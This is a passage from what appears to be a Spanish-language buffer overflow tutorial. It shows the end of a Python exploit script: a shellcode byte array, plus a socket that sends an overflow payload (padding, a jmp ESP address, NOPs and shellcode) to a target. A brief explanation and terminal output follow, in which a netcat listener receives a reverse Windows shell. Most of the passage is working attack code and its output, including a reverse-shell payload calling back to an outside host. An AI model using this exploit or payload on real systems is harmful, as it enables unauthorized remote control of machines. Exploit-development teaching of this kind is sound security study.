shellcode += b"\xcd\x34\x6f\xa4\xcf\x7f\xe6\x42\xa5\x6f\xaf"
shellcode += b"\xdd\x52\x09\xea\x95\xc3\xd6\x20\xd0\xc4\x5d"
shellcode += b"\xc7\x25\x8a\x95\xa2\x35\x7b\x56\xf9\x67\x2a"
shellcode += b"\x69\xd7\x0f\xb0\xf8\xbc\xcf\xbf\xe0\x6a\x98"
shellcode += b"\xe8\xd7\x62\x4c\x05\x41\xdd\x72\xd4\x17\x26"
shellcode += b"\x36\x03\xe4\xa9\xb7\xc6\x50\x8e\xa7\x1e\x58"
shellcode += b"\x8a\x93\xce\x0f\x44\x4d\xa9\xf9\x26\x27\x63"
shellcode += b"\x55\xe1\xaf\xf2\x95\x32\xa9\xfa\xf3\xc4\x55"
shellcode += b"\x4a\xaa\x90\x6a\x63\x3a\x15\x13\x99\xda\xda"
shellcode += b"\xce\x19\xfa\x38\xda\x57\x93\xe4\x8f\xd5\xfe"
shellcode += b"\x16\x7a\x19\x07\x95\x8e\xe2\xfc\x85\xfb\xe7"
shellcode += b"\xb9\x01\x10\x9a\xd2\xe7\x16\x09\xd2\x2d"
log.info("Enviando shellcode ...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.send(junk + jmpesp + nops + shellcode + b"\r\n")
shell.close()
log.success("Revisa tu listener")
¿Qué hace exactamente el script de explotación?
Se define el offset antes de llegar el EIP y se rellena con A
Se define una dirección que haga un jmp al ESP
Se dedinen 16 nops para desplazar la pila y dar tiempo para que se interprete el shellcode
Al ejecutarse el shellcode nos envia una shell al host y puerto especificados
❯ python3 exploit.py
[*] Enviando shellcode ...
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.193.1
Microsoft Windows [Versión 10.0.22621.1105]
(c) Microsoft Corporation. Todos los derechos reservados.
C:\Users\pc1\Desktop>whoami
gatogamer1155\pc1
C:\Users\pc1\Desktop>